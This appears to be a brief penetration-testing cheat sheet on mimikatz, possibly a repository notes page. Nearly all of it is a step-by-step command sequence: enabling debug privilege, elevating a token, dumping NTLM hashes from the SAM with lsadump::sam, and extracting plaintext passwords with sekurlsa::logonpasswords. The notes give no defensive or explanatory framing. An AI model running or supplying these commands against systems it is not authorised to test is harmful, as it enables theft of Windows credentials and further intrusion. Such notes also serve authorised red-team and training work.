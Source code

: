 ### mimikatz
As an early stage enumeration item, worth running: `Get-LocalUser` to enumerate local users on a machine.

To start run `.\mimikatz.exe` in a Powershell session. You'll then be dumped in an interactive session in which the commands below can be run.

Enable the `SeDebugPrivilege` access right: 
```bash
privilege::debug
```
Elevate privilege (prerequisite for `lsadump::sam`):
```bash
token::elevate
```
Extract all NTLM hashes from the SAM:
```bash
lsadump::sam
```
Extract plaintext passwords from all available sources:
```bash
sekurlsa::logonpasswords
```